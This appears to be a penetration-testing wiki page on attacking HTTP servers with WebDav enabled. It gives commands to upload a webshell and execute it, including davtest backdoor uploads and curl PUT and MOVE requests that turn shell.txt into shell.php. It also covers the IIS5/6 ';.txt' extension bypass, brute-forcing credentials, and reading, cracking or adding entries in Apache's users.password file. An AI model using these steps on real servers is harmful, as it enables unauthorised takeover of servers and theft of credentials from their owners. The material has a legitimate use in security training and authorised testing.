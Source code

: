 # WebDav

A **HTTP Server with WebDav** active is a server where you probably can **update, delete, move, copy** files. **Sometimes** you **need** to have **valid credentials** \(usually check with HTTP Basic Authentication\).

You should try to **upload** some **webshell** and **execute** it from the web server to take control over the server.  
Usually, to **connect** a WebDav server you will need valid **credentials**: [**WebDav bruteforce**](../../brute-force.md#http-basic-auth) ****_\(Basic Auth\)_.

Other common configuration is to **forbid uploading** files with **extensions** that will be **executed** by the web server, you should check how to **bypass this:**

* **Upload** files with **executable extensions** \(maybe it's not forbidden\).
* **Upload** files **without executable extensions** \(like .txt\) and try to **rename** the file \(move\) with an **executable extension**.
* **Upload** files **without executable extensions** \(like .txt\) and try to **copy** the file \(move\) with **executable extension.**

## DavTest

**Davtest** try to **upload several files with different extensions** and **check** if the extension is **executed**:

```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```

Output sample:

![](../../.gitbook/assets/image%20%28169%29.png)

This doesn't mean that **.txt** and **.html extensions are being executed**. This mean that you can **access this files** through the web.

## Cadaver

You can use this tool to **connect to the WebDav** server and perform actions \(like **upload**, **move** or **delete**\) **manually**.

```text
cadaver <IP>
```

## PUT request

```text
curl -T 'shell.txt' 'http://$ip'
```

## MOVE request

```text
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```

## IIS5/6 WebDav Vulnerability

This vulnerability is very interesting. The **WebDav** does **not allow** to **upload** or **rename** files with the extension **.asp**. But you can **bypass** this **adding** at the end of the name **";.txt"** and the file will be **executed** as if it were a .asp file \(you could also **use ".html" instead of ".txt"** but **DON'T forget the ";"**\).

Then you can **upload** your shell as a ".**txt" file** and **copy/move it to a ".asp;.txt"** file. An accessing that file through the web server, it will be **executed** \(cadaver will said that the move action didn't work, but it did\).

![](../../.gitbook/assets/image%20%28259%29.png)

## Post credentials

If the Webdav was using an Apache server you should look at configured sites in Apache. Commonly:  
_**/etc/apache2/sites-enabled/000-default**_

Inside it you could find something like:

```text
ServerAdmin webmaster@localhost
        Alias /webdav /var/www/webdav
        <Directory /var/www/webdav>
                DAV On
                AuthType Digest
                AuthName "webdav"
                AuthUserFile /etc/apache2/users.password
                Require valid-user
```

As you can see there is the files with the valid **credentials** for the **webdav** server: 

```text
/etc/apache2/users.password
```

Inside this type of files you will find the **username** and a **hash** of the password. These are the credentials the webdav server is using to authenticate users.

You can try to **crack** them, or to **add more** if for some reason you wan to **access** the **webdav** server:

```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```

To check if the new credentials are working you can do:

```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```

